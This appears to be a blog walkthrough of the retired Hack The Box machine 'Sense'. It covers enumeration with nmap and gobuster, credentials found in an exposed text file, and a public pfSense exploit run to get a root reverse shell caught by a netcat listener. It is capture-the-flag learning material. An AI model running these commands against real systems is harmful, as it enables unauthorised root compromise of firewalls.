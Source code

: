 ```yaml
---
layout: post
title: "HTB-Sense"
date: 2020-02-16 13:56:00 +0000
categories: HTB-Walkthrough
---
```


![sense](/assets/img/sense.png)

Sense is another straightforward retired HTB box. Its OSCP-like in that enumeration reveals a known vulnerability, and public exploit that enables us to compromise it.

Nmap scans first then...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.60 |tee -a sense.txt`

{% highlight ruby %}
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Host is up (0.11s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
{% endhighlight %}

Port 80 redirects us to the https port (443).

Gobuster is a great directory-brute forcer (like dirb and dirbuster) which is fast and easy to use.

when using it against https its often easiest to use the `-k` flag to avoid ssl/tls problems which could make the enumeration fail.

`gobuster -u https://10.10.10.60/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.php,.asp -k`
Starting with a common.txt file to use with it, if nothing is found we could progress to something more comprehensive, but would take longer.
You can also speed things up with increasing the threads that gobuster uses, 50 for example...with a `-t 50` flag...but I didnt in this instance.

{% highlight ruby %}
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,asp,sh
[+] Timeout      : 10s
=====================================================
2019/11/12 12:06:05 Starting gobuster
=====================================================
/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/installer (Status: 301)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/xmlrpc.php (Status: 200)
/xmlrpc.php (Status: 200)
=====================================================
2019/11/12 12:09:26 Finished
=====================================================
{% endhighlight %}

Gobuster gives us a bunch of goodies to investigate, but nothing seems to give us any real progress;
We can see that the server is using 'pfsense', but we cant login with any of the normal admin/admin creds or other weak variants.
Searching online for default creds we find some (admin/pfsense), but they don't work.

Perhaps we're missing something, we tried gobuster with a limited common list initially, so we'll try again with a better directory list.
Dirbuster comes with a very reliable set of files to use, but I prefer to use them with gobuster.

`gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt -k -t 50`

This takes a lot longer, and does return something more interesting
`/system-users.txt`

browsing to the page we find a snippet of information which shouldn't be publicly accessible...


{% highlight ruby %}
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
{% endhighlight %}

We try to login again with username:rohit and password:pfsense, and sucessfully gain access to the pfsense dashboard.


We can search online, google, or the exploitdb website for known exploits, or just use searchsploit from the kali terminal...
{% highlight ruby %}
root@kali:~/HTB/prep/sense# searchsploit pfsense 2.1.
------------------------------------------ ----------------------------------------
 Exploit Title                            |  Path
                                          | (/usr/share/exploitdb/)
------------------------------------------ ----------------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.p | exploits/php/webapps/43560.py
------------------------------------------ ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Copy the exploit, read it carefully to find out how to use it, and what it does....then give it a try...

Dont forget to set an nc listener ready to catch the reverse shell...

{% highlight ruby %}
root@kali:~/HTB/prep/sense# python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.34 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
{% endhighlight %}

The exploit works a treat, and gives us a lovely shell...

{% highlight ruby %}
root@kali:~/HTB/prep/sense# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.60] 2334
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
dxxxxxxxxxxxxxxxxxxxxxxxxxxxx6
# ls /home
.snap
rohit
# cat /home/rohit/user.txt
8xxxxxxxxxxxxxxxxxxxxxxxxxxxxb 
# hostname
pfSense.localdomain
# whoami
root
# 
{% endhighlight %}

Flags are obfuscated because SPOILERS....(he says giving you a step-by-step !!!)

